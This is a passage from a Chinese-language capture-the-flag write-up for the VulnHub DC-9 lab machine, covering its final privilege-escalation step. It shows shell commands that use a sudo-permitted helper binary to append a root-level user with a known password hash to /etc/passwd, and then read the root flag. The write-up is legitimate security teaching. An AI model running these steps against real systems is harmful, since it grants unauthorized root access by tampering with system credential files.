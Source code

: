 2个 test.py,不过我估计 `/opt/devstuff/test.py` 才是我们需要的
```bash
cat /opt/devstuff/test.py
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC9/21.png)

看起来是 test 的源码,功能是添加输入到目标的最后

那么接下来就简单了,直接向 passwd 文件中写用户,或直接向 sudo 配置文件写 ALL 都是可以提权的
```bash
echo 'test:sXuCKi7k3Xh/s:0:0::/root:/bin/bash' > /tmp/test
cd /opt/devstuff/dist/test/
sudo ./test /tmp/test /etc/passwd
su test
Password: toor

cd /root
ls
cat theflag.txt
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC9/22.png)

提权成功,感谢作者 @DCUA7 制作的 DC 系列靶机
